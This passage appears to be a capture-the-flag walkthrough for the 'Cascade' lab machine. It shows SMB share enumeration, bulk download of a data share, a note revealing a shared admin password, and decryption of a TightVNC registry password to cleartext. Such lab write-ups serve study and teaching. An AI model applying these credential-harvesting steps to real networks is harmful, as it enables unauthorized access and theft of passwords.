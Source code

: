     SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share 

## grab-all-files

    ➜  cascade smbclient \\\\cascade.local\\Data -U r.thompson
    Password for [WORKGROUP\r.thompson]:
    Try "help" to get a list of possible commands.
    smb: \> mask ""
    smb: \> recurse ON
    smb: \> prompt OFF
    smb: \> mget *
    NT_STATUS_ACCESS_DENIED listing \Contractors\*
    NT_STATUS_ACCESS_DENIED listing \Finance\*
    NT_STATUS_ACCESS_DENIED listing \Production\*
    NT_STATUS_ACCESS_DENIED listing \Temps\*
    getting file \IT\Email Archives\Meeting_Notes_June_2018.html of size 2522 as IT/Email Archives/Meeting_Notes_June_2018.html (3.0 KiloBytes/sec) (average 3.0 KiloBytes/sec)
    getting file \IT\Logs\Ark AD Recycle Bin\ArkAdRecycleBin.log of size 1303 as IT/Logs/Ark AD Recycle Bin/ArkAdRecycleBin.log (1.4 KiloBytes/sec) (average 2.1 KiloBytes/sec)
    getting file \IT\Logs\DCs\dcdiag.log of size 5967 as IT/Logs/DCs/dcdiag.log (7.1 KiloBytes/sec) (average 3.7 KiloBytes/sec)
    getting file \IT\Temp\s.smith\VNC Install.reg of size 2680 as IT/Temp/s.smith/VNC Install.reg (3.2 KiloBytes/sec) (average 3.6 KiloBytes/sec)

### file-enum

    We will be using a temporary account to perform all tasks related to the network migration and this account will be deleted at the end of 2018 once the migration is complete. This will allow us to identify actions related to the migration in security logs etc. Username is TempAdmin (password is the same as the normal admin account password). 

## VNC-pwd

    ➜  s.smith cat VNC\ Install.reg 
    ��Windows Registry Editor Version 5.00
    [HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]
    [HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
    "EnableUrlParams"=dword:00000001
    "Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
    "AlwaysShared"=dword:00000000
    "VideoRects"=""

    "Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f

    6bcf2a4b6e5aca0f

[VNCPASSWD](https://github.com/jeroennijhof/vncpwd)

    ➜  vncpwd git:(master) ✗ echo '6bcf2a4b6e5aca0f' | xxd -r -p > vnc_enc_pass

    ➜  vncpwd git:(master) ✗ ./vncpwd vnc_enc_pass 
    Password: sT333ve2
